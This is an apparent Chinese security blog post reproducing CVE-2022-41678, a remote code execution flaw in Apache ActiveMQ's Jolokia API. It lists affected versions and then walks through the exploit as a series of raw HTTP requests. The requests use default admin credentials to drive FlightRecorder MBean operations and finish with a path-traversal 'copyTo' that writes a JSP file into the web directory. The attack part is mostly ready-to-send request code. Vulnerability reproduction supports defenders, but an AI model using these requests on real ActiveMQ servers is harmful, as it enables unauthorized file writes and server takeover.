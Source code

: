 #  【漏洞复现】ActiveMQ-Jolokia-远程代码执行漏洞   
原创 莫大130  安全逐梦人   2023-12-01 00:07  
  
##  Apache-ActiveMQ-Jolokia-远程代码执行漏洞-CVE-2022-41678   
##  影响范围   
```
Apache ActiveMQ before 5.16.6
Apache ActiveMQ 5.17.0 before 5.17.4
Apache ActiveMQ 5.18.0 unaffected
Apache ActiveMQ 6.0.0 unaffected

```  
##  漏洞复现版本下载   
```
https://activemq.apache.org/activemq-5017000-release

```  
##  漏洞复现   
#### 新建记录  
```
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 136

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}

```  
  
记住这个 value参数中的值，后面的poc要用到,例如现在是4  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5zWT2wCRAbUtrNHiaSorK4eMiaLJXp4E5NppQJrkSe3UOd5ZN4tshFicjSgJllo7GJLU1ma7v3vjQPw/640?wx_fmt=png&from=appmsg "")  
#### 写入payload  
  
payload太长了，放在最后了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5zWT2wCRAbUtrNHiaSorK4eibey3REQDsLTowerictF5ghBic4QZWuANyoSiaibaPlhnDKOKK2VKPicvSQQ/640?wx_fmt=png&from=appmsg "")  
  
```
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 136

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setConfiguration",
    "arguments": [4,""]
}

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5zWT2wCRAbUtrNHiaSorK4enGlCj08nuS0p8yvYUfNicKsPJeAXzyS98SKvQxcm4kj10H6CiafhEMpA/640?wx_fmt=png&from=appmsg "")  
### 导出录制到web目录  
```
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 141

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "startRecording",
    "arguments": [4]
}

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5zWT2wCRAbUtrNHiaSorK4e7W2NlVW5AzS8upbUW3NhUKz04xiaAgoEHlT7PoCDJY4mc8q3oRFiaxBA/640?wx_fmt=png&from=appmsg "")  
```
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 138

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "stopRecording",
    "arguments": [4]
}

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5zWT2wCRAbUtrNHiaSorK4efDVHicWf3rZroP2NODGFfVRMzPGeZaFcloFv9w3WJjsqWZRMkdVqlrg/640?wx_fmt=png&from=appmsg "")  
#### 导出到web目录  
```
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 159

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "copyTo",
    "arguments": [4,"../../webapps/test.jsp"]
}


```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5zWT2wCRAbUtrNHiaSorK4e5xHHf6fV3MFb7Dnwzx9WwAaXVwgjEPTiciaHdkJAUufgrelvqCEJLHhg/640?wx_fmt=png&from=appmsg "")  
#### 文件写入成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5zWT2wCRAbUtrNHiaSorK4esofQHHBfSWEPibSiaLcqUickbczKywbPDEVIQeNia5NrZKiav0f1h2icmT6g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5zWT2wCRAbUtrNHiaSorK4euicflzUheyud18dTgQucFUUNek9bUncN2aXhVPKf5UjXD1gEuAlyJuw/640?wx_fmt=png&from=appmsg "")  
##  漏洞来源   
- https://l3yx.github.io/2023/11/29/Apache-ActiveMQ-Jolokia-%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-CVE-2022-41678-%E5%88%86%E6%9E%90/  
  
- https://github.com/wy876/POC  
  
##  payload   
  
本地搭建源码，配置环境搞了好久都不行，无法调试代码，最后的payload是搜索GitHub关键字找到的  
- https://github.com/gradle/gradle-profiler/blob/2eb14e031fbd48203fb05b28183decd1ee2304de/src/main/resources/org/gradle/profiler/jfr/openjdk.jfc#L4  
  
- END -  
  
  
